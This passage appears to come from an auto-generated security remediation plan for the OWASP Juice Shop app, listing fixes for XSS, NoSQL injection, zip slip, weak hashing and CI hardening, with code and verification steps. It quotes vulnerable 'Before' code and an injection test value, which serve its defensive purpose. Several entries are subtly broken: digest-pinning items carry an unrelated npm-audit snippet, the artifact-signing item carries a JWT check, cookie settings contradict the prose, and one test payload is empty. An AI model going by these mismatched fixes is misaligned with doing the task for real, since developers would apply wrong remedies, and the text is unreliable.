1. Remove the vm.`runInContext` + `notevil` eval entirely from `routes/b2bOrder.ts`. Define a JSON Schema (or zod/joi schema) for `orderLinesData` that enumerates the allowed fields and types, and parse/validate against it instead of evaluating it as JavaScript.
2. If server-side expression evaluation is genuinely required for business logic, migrate to a purpose-built sandboxed evaluator that explicitly blocks prototype chain access (e.g., expr-eval, or a Rust/WASM sandbox), and add allowlist validation of input structure before evaluation.
3. Add a role check on `/b2b/v2/orders` beyond basic JWT validity - require a 'b2b' or 'partner' role claim in the JWT payload and verify it with `expressJwt`'s `isRevoked` or a custom middleware guard.
4. Enforce Content-Type: application/json and add express-validator or zod schema validation on body.`orderLinesData` before the handler executes.

```typescript
// Replace eval with structured parsing:
import { z } from 'zod'

const OrderLineSchema = z.object({
  productId: z.number().int().positive(),
  quantity: z.number().int().min(1).max(1000),
  unitPrice: z.number().positive()
})
const OrderBodySchema = z.object({
  cid: z.string().max(64),
  orderLinesData: z.array(OrderLineSchema).max(100)
})

// In handler:
const parsed = OrderBodySchema.safeParse(req.body)
if (!parsed.success) return res.status(400).json({ error: parsed.error })
```

**Reference:** CWE-94

---

<a id="m-014"></a>
#### M-014 — Constrain file paths to a safe base directory

**Addresses:**

- 🔴 [F-014](#f-014) — Zip Slip Path Traversal (`routes/fileUpload.ts:44`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/fileUpload.ts:44`

**How:**

1. Replace `absolutePath.includes(path.resolve('.'))` with `absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep)` to enforce a strict directory prefix.
2. Reject entries where the resolved path does not start with the target directory - call `entry.autodrain()` and continue.
3. Sanitize entry filenames to remove any `..` path components before resolving using a strip regex.
4. Consider using a well-maintained library such as `adm-zip` with built-in path traversal protection or validate with `path.relative()` that the result does not start with `..`.

```javascript
const safeBase = path.resolve('uploads/complaints') + path.sep
const absolutePath = path.resolve('uploads/complaints/' + fileName)
if (!absolutePath.startsWith(safeBase)) {
  entry.autodrain()
  return
}
entry.pipe(fs.createWriteStream(absolutePath))
```

**Reference:** CWE-22

---

### P2 — This Sprint

<a id="m-003"></a>
#### M-003 — Add security audit logging

**Addresses:**

- 🟠 [F-003](#f-003) — Missing Security Audit Logging (`routes/updateProductReviews.ts:17`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/updateProductReviews.ts:17`

**How:**

1. Create a dedicated security audit logger (e.g., a winston transport writing to an append-only file or external SIEM) that records: `actor_id`, `action`, `target_resource`, `old_value`, `new_value`, `timestamp`, `ip`.
2. In `routes/login.ts`, log both successful and failed authentication attempts with the email, IP, and outcome immediately after the `sequelize.query()` resolves.
3. In `routes/updateProductReviews.ts`, log the update with `{ actor: user.data.email, review_id: req.body.id, new_message: req.body.message }` before the DB call.
4. Ensure the log store is append-only and not writable by the application's DB user.

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** A failed admin probe leaves an `authz.deny` line in the central log within 1 s.

**Reference:** CWE-778

---

<a id="m-004"></a>
#### M-004 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage (`login.component.ts:101`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `frontend/src/app/login/login.component.ts:101`

**How:**

1. Add a `POST /api/auth/session` BFF endpoint to the Express backend that accepts the JWT, validates it, and responds with `Set-Cookie: session=<opaque>; HttpOnly; Secure; SameSite=Strict`. The SPA never stores the JWT.
2. Remove `localStorage.setItem('token', ...)` from all four component call sites.
3. Update `request.interceptor.ts` to rely on the browser's automatic cookie sending instead of manually injecting `Authorization: Bearer`.
4. Set a session timeout on the BFF cookie (e.g. 8 hours) and implement a silent refresh endpoint to extend it.
5. Deploy `Content-Security-Policy: default-src 'self'; script-src 'self'` to limit XSS exfiltration even if a bypass exists.

```typescript
// Move the JWT out of localStorage into an httpOnly cookie.
res.cookie('session', token, {
  httpOnly: true, secure: true, sameSite: 'lax', maxAge: 3600_000
})
```

**Verification:** Open browser DevTools, run `localStorage.getItem('token')` and confirm `null`.

**Reference:** CWE-922

---

<a id="m-005"></a>
#### M-005 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-005](#f-005) — GitHub Actions Workflow Missing Permissions Block (`ci.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/ci.yml:1`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed

---

<a id="m-006"></a>
#### M-006 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🟠 [F-006](#f-006) — Sensitive REST Route Without Auth Middleware (`server.ts:310`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

<a id="m-015"></a>
#### M-015 — Harden the authentication flow

**Addresses:**

- 🟠 [F-015](#f-015) — OAuth Implicit Flow with Derived Predictable Password (`oauth.component.ts:30`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:**

1. Switch to the OAuth 2.0 Authorization Code flow with PKCE (`code_challenge_method=S256`). The SPA generates a random `code_verifier`, hashes it as `code_challenge`, and sends the code (not the token) to the redirect URI.
2. Exchange the authorization code for tokens server-side (BFF endpoint) so the access token never appears in the URL fragment.
3. Generate a cryptographically random `state` parameter before the OAuth redirect and verify it on return - prevents CSRF on the OAuth callback.
4. Remove the derived-password logic at `oauth.component.ts:30`. Instead, link the OAuth sub (subject identifier) to the Juice Shop account without creating a password-based parallel credential.
5. Register the redirect URI as an exact-match allowlist in the OAuth provider configuration.

**Reference:** CWE-287

---

<a id="m-016"></a>
#### M-016 — Verify token signatures before trusting claims

**Addresses:**

- 🔴 [F-016](#f-016) — JWT decode used without signature verification (`lib/insecurity.ts:58`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:58`

**How:** Replace `.decode(token)` with `.verify(token, key, { algorithms: [...] })` and gate authorization on the verified payload only.

---

<a id="m-017"></a>
#### M-017 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-017](#f-017) — Stored Cross-Site Scripting (`about.component.ts:119`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/about/about.component.ts:119`

**How:**

1. Remove `bypassSecurityTrustHtml()` at `about.component.ts:119`. Render the comment field via Angular interpolation which HTML-entity-encodes by default.
2. Server-side: apply `sanitize-html` (or equivalent) to the `comment` field in `routes/feedback.ts` before it is persisted, allowing only a safe allowlist of tags (e.g. `<b>`, `<i>`, `<em>`).
3. For the star-rating icons (`this.stars[]`), inject them as SVG or Angular component children rather than as raw HTML strings.
4. Deploy a `Content-Security-Policy` header (`script-src 'self'`) via the Express `helmet` middleware.

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Insert `` via the affected field and confirm the browser renders the escaped text, not an alert dialog.

**Reference:** CWE-79

---

<a id="m-018"></a>
#### M-018 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-018](#f-018) — Stored XSS (`last-login-ip.component.ts:39`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**How:**

1. Replace `bypassSecurityTrustHtml(...)` at `last-login-ip.component.ts:39` with direct string assignment: `this.lastLoginIp = payload.data.lastLoginIp` and render via Angular interpolation `{{ lastLoginIp }}`.
2. The `<small>` tag should be part of the template HTML, not injected as trusted content.
3. Server-side: validate the IP address value in the JWT-issuing code to be a valid IPv4 or IPv6 address pattern before embedding it in the token.

```javascript
// Before
this.lastLoginIp = this.sanitizer.bypassSecurityTrustHtml(`<small>${payload.data.lastLoginIp}</small>`)

// After (in template: <small>{{ lastLoginIp }}</small>)
this.lastLoginIp = payload.data.lastLoginIp
```

**Reference:** CWE-79

---

<a id="m-019"></a>
#### M-019 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-019](#f-019) — Stored Cross-Site Scripting (`search-result.component.ts:132`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:132`

**How:**

1. Replace `bypassSecurityTrustHtml(tableData[i].description)` at line 132 with `DomSanitizer.sanitize(SecurityContext.HTML, tableData[i].description)` to allow the sanitizer to strip unsafe tags while preserving legitimate formatting.
2. Alternatively, store product descriptions as plain text and escape on render - if no HTML formatting is needed, assign `product.description` directly and use Angular interpolation.
3. Server-side: sanitize product descriptions in `routes/products.ts` before persistence.

```javascript
// Before
tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)

// After
import { SecurityContext } from '@angular/core'
tableData[i].description = this.sanitizer.sanitize(SecurityContext.HTML, tableData[i].description) ?? ''
```

**Reference:** CWE-79

---

<a id="m-020"></a>
#### M-020 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-020](#f-020) — Reflected Cross-Site Scripting (`search-result.component.ts:170`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:170`

**How:**

1. Remove the `bypassSecurityTrustHtml()` call at `search-result.component.ts:170` and assign `queryParam` directly to `searchValue` as a plain string.
2. Update the template to render `searchValue` via Angular interpolation (`{{ searchValue }}`) instead of `[innerHTML]` binding - Angular's default interpolation context-escapes HTML entities.
3. If HTML rendering of the search term is a deliberate product feature, use `DomSanitizer.sanitize(SecurityContext.HTML, queryParam)` instead of `bypassSecurityTrustHtml`.
4. Add a `Content-Security-Policy` response header that bans inline scripts (`script-src 'self'`) to limit exploitation of any remaining XSS surface.

```javascript
// Before (vulnerable)
this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)

// After (safe)
this.searchValue = queryParam  // render with {{ searchValue }} in template
```

**Reference:** CWE-79

---

<a id="m-021"></a>
#### M-021 — Use parameterized database queries

**Addresses:**

- 🔴 [F-021](#f-021) — NoSQL Mass-Update Injection (`routes/trackOrder.ts:18`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/trackOrder.ts:18`

**How:**

1. Replace `db.ordersCollection.find({ $where: ... })` with `db.ordersCollection.find({ orderId: id })` - equality filter does not evaluate JavaScript and cannot be injected.
2. In challenge mode, keep the `trunc(60)` truncation, but switch to the safe equality filter; the `reflectedXss` challenge can be verified separately without enabling `$where`.
3. Add a test that submits `; return true;` as the order ID and asserts a 400 or empty result.

```javascript
// Before (vulnerable):
db.ordersCollection.find({ $where: `this.orderId === '${id}'` })

// After (safe):
db.ordersCollection.find({ orderId: id })
```

**Reference:** CWE-943

---

<a id="m-022"></a>
#### M-022 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-022](#f-022) — DOM-Write of Raw User Data Export (`data-export.component.ts:71`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/data-export/data-export.component.ts:71`

**How:**

1. Replace the `window.open().document.write()` pattern with a `Blob` URL download: `const blob = new Blob([JSON.stringify(this.userData)], {type:'application/json'}); const url = URL.createObjectURL(blob); window.open(url)`.
2. If HTML rendering of the export is required, render it inside the Angular component using sanitized template binding rather than a new window with `document.write`.
3. Ensure the backend pre-sanitizes all string fields in the user data export before returning them.

```javascript
// Before (unsafe)
window.open('', '_blank', 'width=500')?.document.write(this.userData)

// After (safe download)
const blob = new Blob([JSON.stringify(this.userData)], { type: 'application/json' })
const url = URL.createObjectURL(blob)
window.open(url, '_blank')
```

**Reference:** CWE-79

---

<a id="m-023"></a>
#### M-023 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-023](#f-023) — Uses --unsafe-perm npm install flag — Dockerfile:5

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:5`

**How:** Remove --unsafe-perm; use non-root user

---

<a id="m-024"></a>
#### M-024 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-024](#f-024) — Third-party GitHub Action not pinned to commit SHA (`ci.yml:161`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/ci.yml:161`

**How:** Pin every third-party action to a full 40-char commit SHA

---

<a id="m-025"></a>
#### M-025 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-025](#f-025) — Docker base image not digest-pinned — Dockerfile:1
- 🟠 [F-026](#f-026) — Docker base image not digest-pinned — Dockerfile:23

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest>

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-026"></a>
#### M-026 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-027](#f-027) — On absent from repository (`package-lock.json:1`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `package-lock.json:1`

**How:** Commit `package-lock.json`; use `npm ci` in CI

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-027"></a>
#### M-027 — Remove public serve-index mounts for encryptionkeys/ and ftp/ or add authentication middleware

**Addresses:**

- 🟠 [F-028](#f-028) — Sensitive Files Publicly Browsable (`server.ts:277`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:277`

**How:**

1. Remove the `app.use('/encryptionkeys', ...)` and `app.use('/ftp', ...)` mounts entirely from `server.ts` if the public browsability is not required for legitimate functionality.
2. If the FTP-like listing must exist for any reason, wrap it behind `isAuthorized()` middleware: `app.use('/ftp', isAuthorized(), serveIndexMiddleware, serveIndex('ftp', { icons: true }))`.
3. Move `encryptionkeys/` outside the application working directory so that even if a mount is accidentally re-added, the key material is not in the process's file tree.
4. Add `encryptionkeys/` and `ftp/` to `.gitignore` and rotate `premium.key` immediately.

**Reference:** CWE-548

---

<a id="m-028"></a>
#### M-028 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🟠 [F-029](#f-029) — Weak Password Hashing (`models/user.ts:77`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/user.ts:77`

**How:**

1. Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hashSync(data, 12)` (cost factor 12 minimum per OWASP guidelines). Import bcrypt: `import bcrypt from 'bcryptjs'`.
2. Update `lib/insecurity.ts:43` `hash()` to accept an async overload; update the model `set()` hook in `models/user.ts:77` to call `await bcrypt.hash(clearTextPassword, 12)`.
3. Update the login query at `routes/login.ts:34` to a parameterized ORM call followed by `bcrypt.compare(password, user.password)` instead of hashing the candidate for comparison.
4. Run a one-time migration that prompts users to reset passwords on next login (existing `MD5` hashes cannot be re-hashed without the plaintext).

```javascript
import bcrypt from 'bcryptjs'
// lib/insecurity.ts replacement:
export const hash = async (data: string): Promise<string> => bcrypt.hash(data, 12)
export const verifyHash = async (data: string, stored: string): Promise<boolean> => bcrypt.compare(data, stored)
```

**Reference:** CWE-916

---

<a id="m-029"></a>
#### M-029 — Return generic error messages to clients

**Addresses:**

- 🟠 [F-030](#f-030) — Access Log Public Exposure (`server.ts:281`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:281`

**How:**

1. Add `security.isAuthorized()` and an admin-role check middleware before both the `serveIndex` and `serveLogFiles` mounts at `/support/logs`.
2. Ensure Morgan does not log the Authorization header value; configure morgan format to exclude sensitive headers.
3. Consider moving log serving behind a separate internal-only admin interface rather than exposing it on the public HTTP port.

**Reference:** CWE-209

---

<a id="m-030"></a>
#### M-030 — Offload CPU-bound work and bound execution time

**Addresses:**

- 🟠 [F-031](#f-031) — Event-Loop Saturation (`routes/b2bOrder.ts:23`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:**

1. Apply express-rate-limit to the `/b2b/v2` prefix in `server.ts`, e.g. `rateLimit({ windowMs: 60 * 1000, max: 10 })` - placing it before the `isAuthorized()` call to reject excess requests before JWT processing.
2. Move the vm.`runInContext` / `notevil` eval to a `Node.js` worker_threads Worker so it does not block the event loop. The worker can be terminated after the timeout without stalling the main thread.
3. Set a maximum size limit on body.`orderLinesData` (e.g., 10 KB) using express body-parser's limit option to prevent parser-amplification inputs.
4. Instrument the eval execution time with a histogram metric (e.g., prometheus-client) and alert when p99 latency exceeds 500ms.

```typescript
// server.ts — add before isAuthorized:
app.use('/b2b/v2', rateLimit({ windowMs: 60_000, max: 10, standardHeaders: true, legacyHeaders: false }))
app.use('/b2b/v2', security.isAuthorized())
```

**Reference:** CWE-400

---

<a id="m-031"></a>
#### M-031 — Offload CPU-bound work and bound execution time

**Addresses:**

- 🟠 [F-032](#f-032) — Event-Loop Blocking (`routes/trackOrder.ts:18`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/trackOrder.ts:18`

**How:**

1. In all code paths (challenge and non-challenge), replace `$where` with `{ orderId: id }` equality filter. The `reflectedXSS` challenge can use a separate mechanism to detect the payload without executing it as JavaScript.
2. Add a server-side timeout wrapper around MarsDB find operations using `Promise.race()` with a 5-second timeout to prevent indefinite blocking.
3. Add a regression test that confirms a `$where`-style payload returns 400 and does not block subsequent requests.

```javascript
// Safe with timeout:
const orderQuery = db.ordersCollection.find({ orderId: id })
const timeout = new Promise((_, reject) => setTimeout(() => reject(new Error('Query timeout')), 5000))
const order = await Promise.race([orderQuery, timeout])
```

**Reference:** CWE-400

---

<a id="m-032"></a>
#### M-032 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-033](#f-033) — Missing Rate Limiting on Login Endpoint (`server.ts:343`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:343`

**How:**

1. Add `app.use('/rest/user/login', rateLimit({ windowMs: 15 * 60 * 1000, max: 10, standardHeaders: true }))` before the login route registration in `server.ts`.
2. Fix the X-Forwarded-For `keyGenerator`: validate that `req.ip` is from a trusted proxy before using the header, or remove the custom `keyGenerator` to fall back to `req.ip` from Express's trust proxy setting.
3. Add progressive delays or CAPTCHA after 5 failed attempts for the same email address.
4. Consider adding account lockout (e.g., track failed attempts in Redis) for repeated failures against the same account.

```javascript
// server.ts — add before route registration
app.use('/rest/user/login', rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 10,
  standardHeaders: true,
  legacyHeaders: false
}))
```

**Reference:** CWE-307

---

<a id="m-033"></a>
#### M-033 — Bound parser and decompression resource limits

**Addresses:**

- 🟠 [F-034](#f-034) — YAML Bomb Parser Amplification (`routes/fileUpload.ts:117`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:117`

**How:**

1. In `checkUploadSize`, add `return res.status(413).json({ error: 'File too large' })` when `file.size > 100000` instead of calling `next()` unconditionally.
2. Replace `yaml.load(data)` with `yaml.load(data, { schema: yaml.FAILSAFE_SCHEMA })` or use a size-limited YAML parser to prevent alias amplification.
3. Set a hard body-size limit in the multer configuration (`limits: { fileSize: 102400 }`) so the rejection occurs before buffering.
4. Consider rejecting YAML uploads entirely given the endpoint is marked as deprecated (HTTP 410).

```javascript
// checkUploadSize — enforce rejection:
function checkUploadSize({ file }: Request, res: Response, next: NextFunction) {
  if (file != null && file.size > 100000) {
    return res.status(413).json({ error: 'File too large' })
  }
  next()
}
```

**Reference:** CWE-400

---

<a id="m-034"></a>
#### M-034 — Bound parser resource consumption

**Addresses:**

- 🟠 [F-035](#f-035) — XML Billion-Laughs Entity Expansion DoS (`routes/fileUpload.ts:83`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:**

1. Set `noent: false` in `parseXml` options (line 83) to prevent entity expansion entirely.
2. Strip or reject any XML input containing a DOCTYPE declaration before parsing: `if (data.includes('<!DOCTYPE')) return res.status(400).json({ error: 'DOCTYPE not allowed' })`.
3. Enforce hard upload size rejection (see file-upload-service-004) so large XML payloads never reach the parser.
4. Consider rejecting XML uploads entirely since the endpoint returns HTTP 410 (deprecated).

```javascript
// Before calling parseXml:
if (data.includes('<!DOCTYPE') || data.includes('<!ENTITY')) {
  res.status(400)
  return next(new Error('DOCTYPE/entity declarations are not permitted'))
}
```

**Reference:** CWE-776

---

<a id="m-035"></a>
#### M-035 — Document client-side guards as UI-only and ensure all admin API routes enforce server-side JWT verification

**Addresses:**

- 🟠 [F-036](#f-036) — Client-Side-Only Admin and Accounting Route Guards (`app.guard.ts:52`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/app.guard.ts:52`

**How:**

1. Accept that Angular route guards (`canActivate`) are not a security control - they are UI navigation aids only. Document this explicitly.
2. Ensure every `/api/` and `/rest/` admin endpoint on the Express backend validates the JWT signature and role claim server-side before processing the request.
3. Consider removing the JWT signature from the SPA bundle entirely and fetching the current user's role via an authenticated API call (`GET /rest/whoami`) rather than client-side JWT decoding.
4. If client-side role display is needed, use the server response not a self-signed claim.

**Reference:** CWE-602

---

<a id="m-036"></a>
#### M-036 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-037](#f-037) — Unauthenticated Order Tracking IDOR (`track-result.component.ts:45`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/track-result/track-result.component.ts:45`

**How:**

1. Add `canActivate: [LoginGuard]` to both `/track-result` route entries in `app.routing.ts` (lines 178 and 181).
2. Server-side in `routes/orderHistory.ts` (or equivalent): verify that the order's `UserId` matches `req.user.data.id` from the JWT before returning order data.
3. Remove `bypassSecurityTrustHtml` from `track-result.component.ts:48` - render the `orderId` as plain text via Angular interpolation or `SecurityContext.HTML` sanitization.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

**Reference:** CWE-639

---

<a id="m-037"></a>
#### M-037 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-038](#f-038) — Missing Ownership Check Allows Horizontal Privilege Escalation in Review Update (`routes/updateProductReviews.ts:16`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/updateProductReviews.ts:16`

**How:**

1. Add `author: user?.data?.email` to the MarsDB query filter: `db.reviewsCollection.update({ _id: req.body.id, author: user?.data?.email }, ...)` so updates silently fail (0 modifications) when the caller does not own the review.
2. Return HTTP 403 when `result.modified === 0` and a review with that `_id` exists but the author doesn't match.
3. Remove `{ multi: true }` from the update options to enforce single-document semantics.

```javascript
const user = security.authenticatedUsers.from(req)
if (!user?.data?.email) return res.status(401).json({ error: 'Not authenticated' })
db.reviewsCollection.update(
  { _id: req.body.id, author: user.data.email },  // ownership enforced
  { $set: { message: req.body.message } }
  // multi: true removed
)
```

**Reference:** CWE-639

---

<a id="m-038"></a>
#### M-038 — Validate Content-Type of fetched URL and block SVG/HTML uploads in profile image URL handler

**Addresses:**

- 🟠 [F-039](#f-039) — Stored XSS (`routes/profileImageUrlUpload.ts:28`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:28`

**How:**

1. After `fetch(url)`, check `response.headers.get('content-type')` and reject anything not matching `image/(jpeg|png|gif|webp)` - never accept `image/svg+xml` for user-uploaded profile images.
2. Derive the stored file extension from the validated Content-Type header, not from the URL string.
3. Re-use the `file-type` `fromBuffer` check already present in `profileImageFileUpload.ts` - apply it after downloading the remote content.
4. Serve user-uploaded images with `Content-Disposition: attachment` or from a separate origin to prevent XSS even if a malicious file slips through.

```javascript
const response = await fetch(url, { redirect: 'error' })
const contentType = response.headers.get('content-type') ?? ''
const allowed = ['image/jpeg', 'image/png', 'image/gif', 'image/webp']
if (!allowed.some(t => contentType.startsWith(t))) {
  throw new Error(`Disallowed content type: ${contentType}`)
}
```

**Reference:** CWE-434

---

<a id="m-047"></a>
#### M-047 — Data disclosure through cleartext transport

**Addresses:**

- 🟠 [F-048](#f-048) — Data disclosure (`challenges.yml:1381`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `data/static/challenges.yml:1381`

---

<a id="m-088"></a>
#### M-088 — Architecture review: validate Data disclosure through cleartext transport

**Addresses:**

- 🟠 [F-048](#f-048) — Data disclosure (`challenges.yml:1381`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `data/static/challenges.yml:1381`

**How:** This is an architectural / coverage-gap finding - the analyser inferred 'Data disclosure through cleartext transport' from architectural reasoning, not from a confirmed source-to-sink path. Schedule a focused review of data to validate the assumption: read the relevant control implementation, sample 2–3 representative call paths, and decide whether to convert the finding into a concrete defect (with file:line evidence) or accept the residual risk. This single review card covers 1 clustered `finding(s)` under the same theme to avoid [§9](#9-abuse-cases) inflation.

---

### P3 — Next Quarter

<a id="m-039"></a>
#### M-039 — Attach JWT to Socket\.IO handshake and validate authentication in server-side connection middleware

**Addresses:**

- 🟡 [F-040](#f-040) — Unauthenticated Socket\.IO Connection from SPA (`socket-io.service.ts:21`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/Services/socket-io.service.ts:21`

**How:**

1. Pass the JWT during Socket\.IO connection setup: `io(origin, { auth: { token: localStorage.getItem('token') }, path: ... })`.
2. On the server side, add `io.use((socket, next) => { verifyJwt(socket.handshake.auth.token, ...) })` to reject unauthenticated connections.
3. Only emit events that require authentication after the user has logged in; gate `verifyLocalXssChallenge` and similar challenge-verification events behind an authenticated connection.

```javascript
// socket-io.service.ts — add auth token to handshake
this._socket = io(window.location.origin, {
  auth: { token: localStorage.getItem('token') ?? '' },
  path: socketPath
})
```

**Reference:** CWE-306

---

<a id="m-040"></a>
#### M-040 — Return generic error messages to clients

**Addresses:**

- 🟡 [F-041](#f-041) — Raw Internal Error Messages Leaked to Caller (`routes/b2bOrder.ts:33`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/b2bOrder.ts:33`

**How:**

1. Replace `next(err)` at line 33 with `res.status(400).json({ error: 'Invalid order data' })` - do not forward raw evaluator errors to the Express chain.
2. Log the sanitized error internally (with payload hash and user identity per b2b-api-004) but never include the raw error message or stack trace in the HTTP response body.
3. Add a global Express error handler in `server.ts` that strips stack traces from 500 responses in production (`process.env.NODE_ENV` === 'production').

**Reference:** CWE-209

---

<a id="m-041"></a>
#### M-041 — Sign and verify release artifacts

**Addresses:**

- 🟡 [F-042](#f-042) — Container images not signed no cosign or build-provenance attestation — :1

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-042"></a>
#### M-042 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-043](#f-043) — Npm install does not use --ignore-scripts — Dockerfile:5

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:5`

**How:** Use `npm ci --ignore-scripts` and audit required postinstalls separately

---

<a id="m-043"></a>
#### M-043 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-044](#f-044) — On postinstall hook present and not audited (`package.json:88`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `package.json:88`

**How:** Remove postinstall if possible; else document why required and use --ignore-scripts in CI and audit the hook content

---

<a id="m-044"></a>
#### M-044 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-045](#f-045) — Dependabot npm ecosystem not configured (.github/dependabot.yml:1)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/dependabot.yml:1`

**How:** Add npm ecosystem entry to .`github/dependabot.yml`

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-048"></a>
#### M-048 — Add security audit logging

**Addresses:**

- 🟠 [F-003](#f-003) — Missing Security Audit Logging (`routes/updateProductReviews.ts:17`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/updateProductReviews.ts:17`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/updateProductReviews.ts:17`) and decide whether to keep, downgrade, or remove this finding.

1. Create a dedicated security audit logger (e.g., a winston transport writing to an append-only file or external SIEM) that records: `actor_id`, `action`, `target_resource`, `old_value`, `new_value`, `timestamp`, `ip`.
2. In `routes/login.ts`, log both successful and failed authentication attempts with the email, IP, and outcome immediately after the `sequelize.query()` resolves.
3. In `routes/updateProductReviews.ts`, log the update with `{ actor: user.data.email, review_id: req.body.id, new_message: req.body.message }` before the DB call.
4. Ensure the log store is append-only and not writable by the application's DB user.

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
